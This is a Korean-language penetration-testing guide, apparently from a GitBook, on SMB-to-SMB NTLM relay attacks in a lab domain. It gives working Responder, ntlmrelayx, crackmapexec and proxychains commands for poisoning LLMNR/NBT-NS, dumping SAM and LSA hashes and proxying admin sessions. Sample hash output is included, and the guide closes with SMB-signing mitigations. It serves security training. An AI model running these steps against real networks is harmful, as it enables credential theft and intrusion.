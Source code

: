 # SMB to SMB

### **SMB to SMB 릴레이**&#x20;

LLMNR/NBT-NS, MITM6, 강제 인증 등으로 통해 들어오는 SMB 기반 인증 트래픽을 다른 SMB 서비스에게 릴레이하는 공격이다. 이 릴레이 공격을 바탕으로 타겟 호스트의 SAM 데이터베이스를 덤프하거나, SOCKS Proxy를 구축하거나, 원격 코드를 실행할 수 있다.&#x20;

NTLM 릴레이 공격을 하려면 3개의 구성요소가 필요하다.&#x20;

1. 릴레이 호스트 - 사용자 인증 트래픽을 공격자 호스트에게 보내는, 릴레이를 "할" 호스트&#x20;
2. 공격자 호스 - 중간자 포지션에서 릴레이 공격을 실행하는 호스트&#x20;
3. 타겟 호스트 - 공격자로부터 릴레이 호스트의 트래픽을 받는, 릴레이 공격을 "당할" 호스트. SMB Signing 이 비활성화 되어 있어야 릴레이가 가능하다. &#x20;



SMB to SMB 릴레이 때는 트리거된 인증 트래픽의 유저가 타겟 호스트의 로컬 관리자 (Local Administrator) 권한을 갖고 있어야 유용한 정보를 얻을 때가 많다. 따라서 머신 계정의 인증 트래픽을 받는 강제 인증을 트리거로 사용하면 SMB to SMB 릴레이는 큰 도움이 안될때가 많다. 머신 계정은 특별한 설정이 있지 않는 한 로컬 관리자 권한이 없기 때문이다.&#x20;

* **예 - 성공)** 도메인 어드민이 트리거한 LLMNR/NBT-NS 포이즈닝 -> 릴레이 -> 타겟 호스트의 SAM Dump  성공. 도메인 어드민은 왠만한 타겟 호스트들의 로컬 관리자 권한을 갖고 있기 때문.&#x20;
* **예 - 실패)** 도메인 컨트롤러의 Petitpotam 을 이용한 강제 인증 트리거 -> 릴레이 -> 타겟 호스트의 SAM Dump 실패. 도메인 컨트롤러의 머신 계정은 타겟 호스트의 로컬 관리자 권한이 없기 때문.&#x20;
* **예 - 성공)** 타겟 호스트의 로컬 관리자 권한을 갖고 있는 도메인 유저 계정이 트리거한 LLMNR/NBT-NS 포이즈닝 -> 릴레이 -> 타겟 호스트의 SAM Dump 성공!&#x20;



### 실습&#x20;

NTLM 릴레이 공격은 다음과 같은 순서로 이뤄진다.&#x20;

1. SMB Signing 이 비활화 되어 있는 타겟 호스트를 찾는다.
2. LLMNR/NBT-NS, 강제 인증, MITM6 등의 방법으로 릴레이 공격을 시작한다.&#x20;
3. `Ntlmrelayx` 등의 툴을 써서 들어오는 인증 트래픽을 #1 에서 찾은 타겟호스트들로 릴레이 공격을 한다. 공격 방법은 다음과 같다:&#x20;
   1. SAM 데이터베이스 덤프 - `ntlmrelayx` 의 기본적인 공격이다. &#x20;
   2. SOCKS proxy - SOCKS 프록시를 구축한다.&#x20;
   3. ADCS - ADCS 관련 공격을 시도해 인증서 등을 발급받는다.&#x20;
   4. Command Execution - 명령어를 실행한다.

#### 1. SMB Signing 비활성화 되어 있는 호스트 찾기&#x20;

릴레이 공격에 앞서 SMB Signing 이 비활성화 되어 있는 타겟 호스트들을 찾는다.&#x20;

```
# SMB Signing 비활성화 호스트 찾기 
cme smb <file/CIDR/target> --gen-relay relay.txt 

# 예시 
cme smb 192.168.40.150/26 --gen-relay relay.txt
SMB         192.168.40.151  445    WKSTN01          [*] Windows 10.0 Build 19041 x64 (name:WKSTN01) (domain:choi.local) (signing:False) (SMBv1:False)
SMB         192.168.40.150  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:choi.local) (signing:True) (SMBv1:False)
```



#### 2-1. LLMNR/NBT-NS 포이즈닝 + SMB to SMB 릴레이 공격 - SAM Dump&#x20;

위에서 `192.168.40.151` 호스트의 `SMB Signing: False` 설정을 확인했다. 이를 바탕으로 LLMNR/NBT-NS 포이즈닝 + SMB to SMB 릴레이 공격을 시도한다.&#x20;

```
# 1. ntlmrelayx 세팅
python3 ntlmrelayx.py -tf <relay-file> -smb2support 
python3 ntlmrelayx.py -tf ~/relay.txt -smb2support 

# 2. Responder 세팅 
responder -I <NIC> -v 
responder -I eth1 -v 

# 3. < LLMNR / NBT-NS 트리거 - 실습에서는 explorer에서 존재하지 않은 호스트 검색 > 

# Responder 출력 
[*] [MDNS] Poisoned answer sent to ::ffff:192.168.40.150 for name wronghosts.local
[*] [LLMNR]  Poisoned answer sent to ::ffff:192.168.40.150 for name wronghosts

# ntlmrelayx 의 SAM Dump 출력 
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
[*] SMBD-Thread-7 (process_request_thread): Connection from CHOI/ADMINISTRATOR@192.168.40.150 controlled, but there are no more targets left!
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:a819c0c224c4e483fe3b5a0df7eb87d8:::
backdoor:1002:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
[*] Done dumping SAM hashes for host: 192.168.40.151
```



#### 2-2. LLMNR/NBT-NS 포이즈닝 + SMB to SMB 릴레이 공격 - SOCKS 프록시&#x20;

```
# 1. ntlmrelayx 세팅
python3 ntlmrelayx.py -tf <relay-file> -smb2support 
python3 ntlmrelayx.py -tf ~/relay.txt -smb2support 

# 2. Responder 세팅 
responder -I <NIC> -v 
responder -I eth1 -v 

# 3. < LLMNR / NBT-NS 트리거 - 실습에서는 explorer에서 존재하지 않은 호스트 검색 > 

# ntlmrelayx SOCKS 프록시 출력 
[*] SMBD-Thread-9 (process_request_thread): Connection from CHOI/ADMINISTRATOR@192.168.40.150 controlled, attacking target smb://192.168.40.151
[*] Authenticating against smb://192.168.40.151 as CHOI/ADMINISTRATOR SUCCEED
[*] SOCKS: Adding CHOI/ADMINISTRATOR@192.168.40.151(445) to active SOCKS connection. Enjoy

ntlmrelayx> socks
Protocol  Target          Username            AdminStatus  Port 
--------  --------------  ------------------  -----------  ----
SMB       192.168.40.151  CHOI/ADMINISTRATOR  TRUE         445

# 4. proxychain 을 이용해 위에서 얻은 프록시로 명령어 실행 
proxychains crackmapexec smb 192.168.40.151 -u ADMINISTRATOR -p '' -d CHOI          

[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.15
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.40.151:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.40.151:135 <--denied
SMB         192.168.40.151  445    WKSTN01          [*] Windows 10.0 Build 19041 (name:WKSTN01) (domain:CHOI) (signing:False) (SMBv1:False)
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.40.151:445  ...  OK
SMB         192.168.40.151  445    WKSTN01          [+] CHOI\ADMINISTRATOR: (Pwn3d!)

# 5. proxychains + cme 콤보 (SAM 덤프, LSA 덤프, share) 
proxychains crackmapexec smb 192.168.40.151 -u ADMINISTRATOR -p '' -d CHOI --sam 
proxychains crackmapexec smb 192.168.40.151 -u ADMINISTRATOR -p '' -d CHOI --lsa 
```

SOCKS 프록시를 이용할 때는 주의할 점은 다음과 같다: &#x20;

1. `/etc/proxychains4.conf` 파일의 끝에 `[ProxyList]`내용을 ntlmrelayx의 기본 SOCKS 프록시 포트인 1080으로 설정해준다.&#x20;
2. proxychains <명령어> 를 사용 할 때는 alias 를 사용할 수 없다. 이전까지 `cme` 를 이용했다면, `proxychains` 를 이용할 때는 `proxychains crackmapexec` 이라고 다 쳐주자.&#x20;
3. proxychains + crackmapexec 을 이용할 때는 유저 이름과 도메인을 ntlmrelayx 에 나온 그대로 설정해준다. ntlmrelayx 에서 `CHOI/ADMINISTRATOR` 로 나왔으니, crackmapexec 도 유저이름은 `ADMINISTRATOR`, 도메인은 `CHOI` 로 설정한다.

```
# /etc/proxychains4.conf 파일에 127.0.0.1 1080 추가 
 
[ProxyList]
# add proxy here ..
# meanwile
# defaults set to "tor"
#socks4         127.0.0.1 9050
socks4 127.0.0.1 1080
```



### 대응 방안&#x20;

* SMB Signing 을 활성화 시켜준다. 윈도우 서버에서는 기본적으로 활성화 되어 있지만, 하위 호환성이나 다른 이유 때문에 비활성화 되어 있는 경우도 있다.
* `Computer Configuration\Policies\Windows Settings\Security Settings\Local Policies\Security Options\Microsoft network server: Digitally Sign communications (always)` 를 활성화 한다.&#x20;
* `Computer Configuration\Policies\Windows Settings\Security Settings\Local Policies\Security Options\Microsoft network server: Digitally Sign communications (if client agrees)` 를 활성화 한다.&#x20;

![](<../../.gitbook/assets/image (10).png>)



### 레퍼런스&#x20;

{% embed url="https://blog.fox-it.com/2017/05/09/relaying-credentials-everywhere-with-ntlmrelayx/" %}

{% embed url="https://www.secureauth.com/blog/playing-with-relayed-credentials/" %}

{% embed url="https://www.trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022/" %}
